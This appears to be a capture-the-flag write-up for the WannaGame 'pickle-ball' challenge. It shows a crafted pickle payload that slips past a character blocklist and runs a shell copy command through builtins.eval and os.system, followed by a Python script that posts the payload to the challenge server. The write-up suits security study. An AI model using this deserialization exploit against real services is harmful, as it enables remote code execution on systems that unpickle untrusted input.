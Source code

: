# WannaGame Championship

## pickle-ball

> https://cnsc.com.vn/ctf/challenges#Pickleball-52

## Approach

The banned patterns in payload are `[b"\\", b"static", b"templates", b"flag.txt", b">", b"/", b"."]`,
and the final target is execute `os.system("cp ../flag static")`, so try:

```python
import pickle

# target: cp ../flag static
payload = b'''\
(S'f"cp {chr(46)*2+chr(47)}flag stati{chr(99)}"'
ibuiltins
eval
.'''

print(pickle.loads(payload))
```

Note that `.` in the payload is filtered, so when exploiting, remove the final `.`. Although this will cause a deserialization error on the server, the code will have already been executed.

```python
import requests
import base64

url = "http://ee4f2d3e42fc3c7c9d846f27e8217392.chall.w1playground.com:8082"

payload = b'''\
(\
(S'f"cp {chr(46)*2+chr(47)}flag stati{chr(99)}"'
ibuiltins
eval
ios
system
'''
payload = base64.b64encode(payload)

with requests.Session() as session:
    session.post(url + "/register", data={"username": "1", "password": "1"})
    session.post(url + "/login", data={"username": "1", "password": "1"})
    resp = session.post(url + "/process", data={"payload": payload})
    print(resp.text)
```

## Flag

Then download the flag at `/static/flag`.
